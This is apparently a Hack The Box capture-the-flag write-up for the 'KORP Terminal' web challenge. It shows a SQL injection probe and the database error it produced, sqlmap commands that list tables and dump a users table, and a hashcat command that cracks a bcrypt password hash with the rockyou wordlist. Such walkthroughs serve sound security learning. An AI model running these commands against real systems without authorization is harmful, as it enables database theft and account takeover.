```yaml
---
title: KORP Terminal - Hack The Box
date: 2024-12-15
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# KORP Terminal

## Challenge description

Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out
more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and
security protocols.

## Challenge Overview

This challenge presents a web application with a login interface. Users must input a username and password. The goal is
to identify valid credentials to log in and retrieve the flag.

![KORP Terminal - Overview](/ctf/hack-the-box/challenges/web/korp-terminal/overview.png)

## Enumeration

After testing common credentials like `admin:admin` or `guest:guest`, no successful login was achieved. A closer
inspection of the request using tools like **Burp Suite** revealed no immediate clues. This prompted an attempt to test
for vulnerabilities like **SQL Injection**.

### Testing for SQL Injection

Using the payload below in the `username` field revealed a SQL error, confirming the application is vulnerable to SQL
Injection:

```sql
admin'
```

The server response provided the following error message:

```json
{
    "error": {
        "message": [
            "1064",
            "1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''admin''' at line 1",
            "42000"
        ],
        "type": "ProgrammingError"
    }
}
```

The error message clearly indicates a syntax issue caused by the unescaped input, confirming that the backend query is
vulnerable.

## Exploitation

To exploit this vulnerability, we used **sqlmap**, a powerful automated SQL Injection tool. Since the error revealed the
backend is running **MariaDB**, we specified this database management system in our command.

#### Step 1: Listing Database Tables

The following command was used to retrieve the names of all tables:

```bash
sqlmap -u "http://<challenge-ip>:<challenge-port>" --data="username=admin&password=admin" -p username --ignore-code 401 --dbms=MariaDB --tables
```

::: info Command Breakdown

- **`-u`**: Target URL.
- **`--data`**: Data sent in the POST request.
- **`-p`**: Parameter to test (in this case, `username`).
- **`--ignore-code`**: Ignore HTTP status codes (e.g., 401 Unauthorized).
- **`--dbms`**: Specify the database management system (`MariaDB`).
- **`--tables`**: Retrieve all table names.

:::

Output:

![Sqlmap - Tables](/ctf/hack-the-box/challenges/web/korp-terminal/sqlmap-tables.png)

Sqlmap revealed a database named **`korp_terminal`** with a table named **`users`**.

### Step 2: Dumping the `users` Table

To extract the contents of the `users` table, the following command was used:

```bash
sqlmap -u "http://94.237.61.84:38028" --data="username=admin&password=admin" -p username --ignore-code 401 --dbms=MariaDB -D korp_terminal -T users --dump
```

::: info Command Breakdown:

- **`-D`**: Specify the database to target (`korp_terminal`).
- **`-T`**: Specify the table to dump (`users`).
- **`--dump`**: Dump all rows from the specified table.

:::

Output:

![Sqlmap - Dump](/ctf/hack-the-box/challenges/web/korp-terminal/sqlmap-users-dump.png)

The dump revealed the `username` and `password` fields. The password field was hashed using bcrypt.

## Cracking the Password Hash

### Identifying the Hash Type

By comparing the extracted hash with examples from
the [Hashcat Hash Examples](https://hashcat.net/wiki/doku.php?id=example_hashes) page, it was identified as **bcrypt** (Hashcat
mode `3200`).

### Cracking the Hash with `hashcat`

To crack the bcrypt hash, the following command was used:

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

::: info Command Breakdown

- **`-m 3200`**: Specify the hash type (`bcrypt`).
- **`hash.txt`**: Input file containing the hash.
- **`/usr/share/wordlists/rockyou.txt`**: Wordlist for brute force.

:::

Output:

```
$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
```

The cracked password for the `admin` user was **`password123`**.

## Logging In

Using the credentials:

- **Username**: `admin`
- **Password**: `password123`

We successfully logged into the application and retrieved the flag:

```
HTB{f4k3_fl4g}
```

<ChallengeCard
    challengeType="web"
    challengeName="KORP Terminal"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/647"
/>

## References

- [SQLmap - Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
- [Hashcat Wiki - Example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)